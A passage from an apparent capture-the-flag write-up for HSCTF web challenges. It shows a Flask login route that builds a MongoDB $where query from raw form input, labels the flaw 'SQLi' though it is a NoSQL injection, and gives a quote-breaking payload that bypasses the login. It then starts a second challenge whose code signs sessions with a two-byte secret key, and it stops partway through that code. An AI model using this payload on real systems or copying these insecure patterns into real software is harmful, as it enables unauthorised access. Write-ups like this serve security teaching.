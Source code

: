 ```python
@app.route("/", methods=["POST"])
def login():
	if "user" not in request.form:
		return redirect(url_for("main", error="user not provided"))
	if "password" not in request.form:
		return redirect(url_for("main", error="password not provided"))
	
	try:
		user = db.users.find_one(
			{
			"$where":
				f"this.user === '{request.form['user']}' && this.password === '{request.form['password']}'"
			}
		)
	except pymongo.errors.PyMongoError:
		traceback.print_exc()
		return redirect(url_for("main", error="database error"))
	
	if user is None:
		return redirect(url_for("main", error="invalid credentials"))
	
	session["user"] = user["user"]
	session["admin"] = user["admin"]
	return redirect(url_for("home"))
```

We can see here , the user input directly appends into the query inside single quotes.
SQLi !!!

Here is the payload to bypass the authentication .

`user=admin&password='+||+'1'=='1`

Bypassed !!

`Flag : flag{easier_than_picture_lab_at_least}`

## Chall 4 - **very-secure**

link - [http://very-secure.hsctf.com/](http://very-secure.hsctf.com/)

Description : 

this website is obviously 100% secure

**Solution:**

They gave the source code for this challenge . 

```python
from flask import Flask, render_template, session
import os
app = Flask(__name__)
SECRET_KEY = os.urandom(2)
app.config['SECRET_KEY'] = SECRET_KEY
FLAG = open("flag.txt", "r").read()

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/flag')
def get_flag():
    if "name" not in session:
        session['name'] = "user"
    is_admin = session['name'] == "admin"
```